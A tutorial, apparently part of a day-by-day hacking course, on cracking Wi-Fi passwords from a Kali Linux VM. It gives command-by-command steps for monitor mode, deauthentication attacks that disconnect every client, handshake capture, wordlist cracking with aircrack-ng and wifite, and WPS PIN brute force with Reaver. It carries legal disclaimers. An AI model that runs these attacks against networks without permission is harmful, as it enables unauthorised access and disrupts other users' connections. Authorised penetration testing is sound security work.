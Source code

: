 # Day-20: Wi-Fi Penetration Testing

## THIS IS FOR EDUCATIONAL PURPOSES ONLY. THE PAGE & OWNER ARE NOT RESPONSIBLE FOR ANY DAMAGE CAUSED BY FOLLOWING THE STEPS BELOW.

### Let's Get Started

For the first step, you need a [WiFi Adapter](https://amzn.in/d/08289vCi). This is an affordable option, but if you have a larger budget, you might consider the [Alfa Network Adapter](https://amzn.in/d/06gaCZPK).

### Configuring VirtualBox

1. Connect your adapter to your system.
2. Open VirtualBox > Select your Kali VM > Go to Settings > USB.
3. After selecting USB, add a new USB device by clicking the '+' icon and selecting your adapter.
4. Click 'OK' to save the settings.

### Commands for Wi-Fi Hacking

1. **Check the WiFi adapter in Kali Linux:**
    ```sh
    lsusb
    ```
2. **Check whether the adapter is in 'monitor' mode or 'manage' mode:**
    ```sh
    iwconfig
    ```
3. **Switch the adapter from 'managed' mode to 'monitor' mode:**
    ```sh
    sudo airmon-ng start wlan0
    ```
4. **Search for Wi-Fi networks nearby:**
    ```sh
    sudo airodump-ng wlan0mon
    ```
5. **Choose a target network (ensure the signal strength is above 30 for better results):**

### Preparing for the Attack

We will use a tool called "wifite" to automate the attack process.

#### How Wifite Works

- Sends deauthentication packets to the router, disconnecting all users.
- Captures the target's packets when users attempt to reconnect, generating a .pcap file.
- Uses a common wordlist to brute force the Wi-Fi password from the captured packets.
- Once successful, you will obtain the Wi-Fi password and can connect to the network.

### Executing the Attack

1. **Install Wifite (if not already installed):**
    ```sh
    sudo apt-get update
    sudo apt-get install wifite
    ```
2. **Start Wifite:**
    ```sh
    sudo wifite
    ```
3. **Follow the prompts to select your target network and initiate the attack.**
    - Wifite will display a list of detected networks.
    - Select the network you want to target.
    - Wifite will automatically deauthenticate users, capture the handshake, and attempt to crack the password using a wordlist.

### Additional Tools for Wi-Fi Penetration Testing

#### Aircrack-ng Suite

Aircrack-ng is a complete suite of tools to assess WiFi network security.

1. **Capture packets:**
    ```sh
    sudo airodump-ng wlan0mon
    ```
    - Use this command to capture packets from a specific network:
    ```sh
    sudo airodump-ng --bssid [BSSID] -c [CHANNEL] -w [CAPTURE_FILE] wlan0mon
    ```
2. **Deauthenticate a client:**
    ```sh
    sudo aireplay-ng --deauth 0 -a [BSSID] wlan0mon
    ```
3. **Crack the password:**
    ```sh
    sudo aircrack-ng -w /path/to/wordlist.txt -b [BSSID] [CAPTURE_FILE].cap
    ```

#### Reaver

Reaver is a tool for performing brute force attacks against WPS (Wi-Fi Protected Setup) registrar PINs.

1. **Put the interface in monitor mode:**
    ```sh
    sudo airmon-ng start wlan0
    ```
2. **Scan for WPS-enabled networks:**
    ```sh
    sudo wash -i wlan0mon
    ```
3. **Run Reaver against a target:**
    ```sh
    sudo reaver -i wlan0mon -b [BSSID] -vv
    ```

#### Fern WiFi Cracker

Fern WiFi Cracker is a tool for auditing and attacking wireless networks.

1. **Install Fern WiFi Cracker:**
    ```sh
    sudo apt-get update
    sudo apt-get install fern-wifi-cracker
    ```
2. **Run Fern WiFi Cracker:**
    ```sh
    sudo fern-wifi-cracker
    ```
    - Use the GUI to select your wireless adapter, scan for networks, and initiate attacks.

### Important Notes

- Ensure your actions comply with legal and ethical guidelines. Only test networks you have permission to access.
- Wi-Fi penetration testing should be conducted responsibly and solely for educational and security improvement purposes.

Happy Hacking!

---

Disclaimer: This guide is for educational purposes only. Unauthorized access to networks is illegal and unethical.
